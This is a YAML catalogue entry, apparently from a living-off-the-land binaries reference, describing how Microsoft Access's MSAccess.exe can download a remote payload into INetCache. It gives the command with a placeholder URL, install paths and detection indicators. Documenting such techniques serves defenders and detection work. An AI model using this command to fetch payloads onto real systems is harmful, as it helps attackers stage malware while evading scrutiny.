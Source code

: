```yaml
---
Name: MSAccess.exe
Description: Microsoft Office component
Author: Nir Chako
Created: 2023-04-30
Commands:
  - Command: MSAccess.exe {REMOTEURL}
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload (if it has the filename extension .mdb) and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\MSAccess.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\MSAccess.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\MSAccess.exe
  - Path: C:\Program Files\Microsoft Office\Office16\MSAccess.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\MSAccess.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\MSAccess.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\MSAccess.exe
  - Path: C:\Program Files\Microsoft Office\Office15\MSAccess.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\MSAccess.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\MSAccess.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\MSAccess.exe
  - Path: C:\Program Files\Microsoft Office\Office14\MSAccess.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\MSAccess.exe
  - Path: C:\Program Files\Microsoft Office\Office12\MSAccess.exe
Detection:
  - IOC: URL on a MSAccess command line
  - IOC: MSAccess making unexpected network connections or DNS requests
Acknowledgement:
  - Person: Nir Chako
    Handle: '@C_h4ck_0'
---
```

